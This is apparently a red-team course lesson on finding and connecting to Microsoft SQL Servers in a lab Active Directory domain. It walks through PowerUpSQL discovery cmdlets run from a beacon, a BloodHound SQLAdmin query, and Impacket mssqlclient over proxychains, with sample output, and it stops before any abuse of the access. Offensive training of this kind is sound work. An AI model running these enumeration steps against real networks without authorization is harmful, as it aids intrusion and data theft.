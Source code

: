Microsoft SQL Server is a relational database management system commonly found in Windows environments. They’re typically used to store information to support a myriad of business functions. In addition to the obvious data theft opportunities, they also have a large attack surface, allowing code execution, privilege escalation, lateral movement and persistence.

[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) is an excellent tool for enumerating and interacting with MS SQL Servers.

There are a few "discovery" cmdlets available for finding MS SQL Servers, including `Get-SQLInstanceDomain`, `Get-SQLInstanceBroadcast` and `Get-SQLInstanceScanUDP`.

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> powershell Get-SQLInstanceDomain

ComputerName     : srv-1.dev.cyberbotic.io
Instance         : srv-1.dev.cyberbotic.io,1433
DomainAccountSid : 15000005210002361191261941702819312113313089172110400
DomainAccount    : svc_mssql
DomainAccountCn  : MS SQL Service
Service          : MSSQLSvc
Spn              : MSSQLSvc/srv-1.dev.cyberbotic.io:1433
LastLogon        : 5/14/2021 2:24 PM
Description      : 
```

`Get-SQLInstanceDomain` works by searching for SPNs that begin with `MSSQL*`. This output shows that `srv-1.dev.cyberbotic.io` is running an instance of MS SQL server, being run under the context of the `svc_mssql` domain account.

BloodHound also has an edge for finding potential MS SQL Admins, based on the assumption that the account running the SQL Service is also a sysadmin (which is very common);

```
MATCH p=(u:User)-[:SQLAdmin]->(c:Computer) RETURN p
```

You may also search the domain for groups that sound like they may have access to database instances (for instance, there is a **MS SQL Admins** group).

Once you've gained access to a target user, `Get-SQLConnectionTest` can be used to test whether or not we can connect to the database.

```
beacon> powershell Get-SQLConnectionTest -Instance "srv-1.dev.cyberbotic.io,1433" | fl

ComputerName : srv-1.dev.cyberbotic.io
Instance     : srv-1.dev.cyberbotic.io,1433
Status       : Accessible
```

Then use `Get-SQLServerInfo` to gather more information about the instance.

```
beacon> powershell Get-SQLServerInfo -Instance "srv-1.dev.cyberbotic.io,1433"

ComputerName           : srv-1.dev.cyberbotic.io
Instance               : SRV-1
DomainName             : DEV
ServiceProcessID       : 3960
ServiceName            : MSSQLSERVER
ServiceAccount         : DEV\svc_mssql
AuthenticationMode     : Windows Authentication
ForcedEncryption       : 0
Clustered              : No
SQLServerVersionNumber : 13.0.5026.0
SQLServerMajorVersion  : 2016
SQLServerEdition       : Standard Edition (64-bit)
SQLServerServicePack   : SP2
OSArchitecture         : X64
OsMachineType          : ServerNT
OSVersionName          : Windows Server 2016 Datacenter
OsVersionNumber        : SQL
Currentlogin           : DEV\bfarmer
IsSysadmin             : Yes
ActiveSessions         : 1
```

>  If there are multiple SQL Servers available, you can chain these commands together to automate the data collection.  
```
beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
```  

From this output, we can see that bfarmer has the **sysadmin** role on the instance. There are several options for issuing queries against a SQL instance.

`Get-SQLQuery` from PowerUpSQL:

```
beacon> powershell Get-SQLQuery -Instance "srv-1.dev.cyberbotic.io,1433" -Query "select @@servername"

Column1
-------
SRV-1 
```

  

`mssqlclient.py` from Impacket via proxychains:

```
root@kali:~# proxychains python3 /usr/local/bin/mssqlclient.py -windows-auth DEV/bfarmer@10.10.17.25
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.17.25:1433-<><>-OK
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SRV-1): Line 1: Changed database context to 'master'.
[*] INFO(SRV-1): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (130 19162)
[<>] Press help for extra shell commands
SQL> select @@servername;

SRV-1
```

  

Or a Windows SQL GUI (such as [HeidiSQL](https://www.heidisql.com/) or even [SMSS](https://docs.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms)) via Proxifier:

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/sql-servers/heidi.png)

  

Let's have a look at some ways in which we can abuse access to this SQL instance.




DemonGod - CyberArsenal